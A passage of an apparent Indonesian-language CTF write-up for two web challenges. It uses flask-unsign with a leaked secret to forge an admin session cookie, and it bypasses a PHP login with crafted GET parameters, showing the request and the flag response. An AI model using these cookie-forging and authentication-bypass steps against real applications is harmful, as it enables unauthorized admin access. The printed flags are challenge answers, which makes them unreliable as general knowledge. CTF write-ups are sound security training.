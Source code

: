 ```sh
flask-unsign --sign --cookie "{'isAdmin': True}" --secret 3PmqjTIyNHJe3i5psDJNFAkwoJyUZTwy
```

boom!!! kita mendapatkan flagnya 

![](Pasted%20image%2020221010111105.png)

## ezphp
untuk ini cukup tambahkan parameter
GET /?login=admin&pass=aaaa

request
```http
GET /?login=admin&pass=aaaa HTTP/1.1
Host: ezphp.chal.ctf.gdgalgiers.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=881d94b9173e6d6af0064d48f7972f97
Connection: close
```

response

```http
HTTP/1.1 200 OK
date: Sat, 08 Oct 2022 09:15:36 GMT
server: Apache/2.4.10 (Debian) PHP/5.3.29
x-powered-by: PHP/5.3.29
expires: Thu, 19 Nov 1981 08:52:00 GMT
cache-control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
pragma: no-cache
content-length: 38
content-type: text/html
connection: close

CyberErudites{NeV3R_tRU$T_pHP_MethoD$}
```

